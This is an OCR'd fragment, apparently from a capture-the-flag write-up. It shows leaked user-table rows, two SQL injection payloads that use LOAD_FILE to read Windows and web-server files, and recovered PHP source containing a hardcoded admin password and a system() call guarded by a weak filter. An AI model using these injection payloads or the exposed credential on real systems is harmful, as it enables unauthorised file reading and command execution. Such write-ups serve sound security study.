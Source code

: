 		<tr>
		    <td>6</td>
		    <td>1000</td>
		 </tr>
		
		<tr>
		    <td>3</td>
		    <td>1000</td>
		 </tr>

bunch of users we have not seen before


term=1' union all SELECT LOAD_FILE('C:/Windows/win.ini'), 2,3; -- t

arbitrary file load


term=1' union all SELECT LOAD_FILE('C:/xampp/htdocs/admin/backdoorchecker.php'), 2,3; -- t

```php
<?php
include ('../link.php');
include ('auth.php');
$username = base64_decode(urldecode($_COOKIE['username']));
$password = base64_decode(urldecode($_COOKIE['password']));
$bad = array('$(', '&');
$good = "ls";
if (strtolower(substr(PHP_OS, 0, 3)) == "win") {
    $good = "dir";
}
if ($username == "admin" && $password == "Hopelessromantic") {
    if (isset($_POST['cmd'])) {
        // FILTER ESCAPE CHARS
        foreach ($bad as $char) {
            if (strpos($_POST['cmd'], $char) !== false) {
                die("You're not allowed to do that.");
            }
        }
        // CHECK IF THE FIRST 2 CHARS ARE LS
        if (substr($_POST['cmd'], 0, strlen($good)) != $good) {
            die("It's only allowed to use the $good command");
        }
        if ($_SERVER['REMOTE_ADDR'] == "::1") {
            system($_POST['cmd']);
        } else {
            echo "It's only allowed to access this function from localhost (::1).<br> This is due to the recent hack attempts on our server.";
        }
    }
} else {
    echo "You are not allowed to use this function!";
}
?>
```
